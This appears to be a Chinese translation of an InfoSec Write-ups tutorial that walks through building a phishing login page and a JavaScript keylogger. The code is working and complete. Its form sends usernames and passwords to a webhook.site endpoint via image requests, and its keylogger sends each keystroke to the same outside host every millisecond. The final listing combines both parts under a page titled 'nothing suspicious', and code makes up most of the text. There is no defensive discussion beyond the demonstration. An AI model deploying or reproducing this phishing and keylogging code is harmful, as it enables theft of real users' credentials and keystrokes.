




# 创建一个简单的钓鱼网站和一个 Javascript 键盘记录器

> 原文：<https://infosecwriteups.com/create-a-simple-phishing-website-and-a-javascript-keylogger-9bcafbe6ffda?source=collection_archive---------0----------------------->



嗨伙计们！

今天，我将向您展示一个简单的网站创建，它带有一个允许我们向远程服务器发送用户名和密码的表单，我们还将向钓鱼网站添加一个键盘记录器。

我们开始吧。

首先，我们将使用 HTML 创建页面的图形外观。

```
<!DOCTYPE html>
 <html>
    <body>
       <h4>        A simple website, nothing suspicious   </h4>       <label for="domTextElement">Username: </label>
        <input type="text" id="username" >
 <br><br>        <label for="domTextElement1">Password: </label>
       <input type="password" id="password" >
 <br><br>       
<button type="button"  onclick="getValueInput()">click me!!    </button>
         <p id="valueInput"></p>
    </body>
 </html>
```

我不认为有太多要解释的，唯一重要的是记住标签 id 的名称，因为我们以后会需要它们。

现在有趣的部分开始了。

我们首先创建 Javascript 代码，将用户名和密码发送到我们的服务器。

```
<script>
       const getValueInput = () =>{

let inputValue=document.getElementById("username").value; 

let inputValue1 = document.getElementById("password").value;        var i=new Image();
var j=new Image();
i.src="https://webhook.site/?password="+inputValue1;  j.src="https://webhook.site/?username="+inputValue; 
window.location.reload();
```

```
 }        
</script>
```

代码非常简单，我们创建两个变量来保存用户名和密码，然后将它们发送到我们的服务器。

*window.location.reload()* 用于刷新*页面。*

您可以使用该站点接收从我们的脚本发送的请求。

 [## Webhook.site -测试、处理和转换电子邮件和 HTTP 请求

### Webhook.site 让您可以轻松地检查、测试和自动化(使用可视化自定义操作生成器或 WebhookScript)任何…

网页挂钩网站](https://webhook.site) 

*注意:记住一旦你得到你的链接就把它放在代码里；)*

我们现在通过实现一个键盘记录器来扩展网站的功能🔑。

```
var keys='';
var url = 'http://webhook.site/?c=';
 document.onkeypress = function(e)
 { 
get = window.event?event:e;
 key = get.keyCode?get.keyCode:get.charCode;
 key = String.fromCharCode(key); keys+=key;
}
window.setInterval(function(){ 
if(keys.length>0) {  
new Image().src = url+keys;
  keys = ''; }
}, 1);
```

[Javascript-key logger/key logger . js at master JohnHoder/Javascript-key logger GitHub](https://github.com/JohnHoder/Javascript-Keylogger/blob/master/keylogger.js)

当一个键被按下时，该代码被调用，并将相应的字符发送到服务器。

这是我们网站的完整代码。

```
<!DOCTYPE html>
 <html>
    <body>
       <h4>        A simple website, nothing suspicious   </h4>       <label for="domTextElement">Username: </label>
        <input type="text" id="username" >
 <br><br>        <label for="domTextElement1">Password: </label>
       <input type="password" id="password" >
 <br><br>       
<button type="button"  onclick="getValueInput()">click me!!    </button>
         <p id="valueInput"></p>
         <script>
       const getValueInput = () =>{

let inputValue=document.getElementById("username").value; 

let inputValue1 = document.getElementById("password").value;        var i=new Image();
var j=new Image();
i.src="[https://webhook.site/](https://webhook.site/753150bb-4d5e-49b5-8d1b-6a6b750e02ac/?password=)?password="+inputValue1;  j.src="[https://webhook.site/?username=](https://webhook.site/753150bb-4d5e-49b5-8d1b-6a6b750e02ac/?username=)"+inputValue; 
window.location.reload();
```

```
 }   
  var keys='';
var url = '[https://webhook.site/?c='](https://webhook.site/753150bb-4d5e-49b5-8d1b-6a6b750e02ac/?c=');
 document.onkeypress = function(e)
 { 
get = window.event?event:e;
 key = get.keyCode?get.keyCode:get.charCode;
 key = String.fromCharCode(key); keys+=key;
}
window.setInterval(function(){ 
if(keys.length>0) {  
new Image().src = url+keys;
  keys = ''; }
}, 1);
</script>
    </body>
 </html>
```

让我们看看是否一切正常。



正如我们所看到的，数据已经发送到我们的网站！



我希望这篇文章会让你感兴趣。

到下一篇，拜拜！

*来自 Infosec 的报道:Infosec 上每天都会出现很多难以跟上的内容。* [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*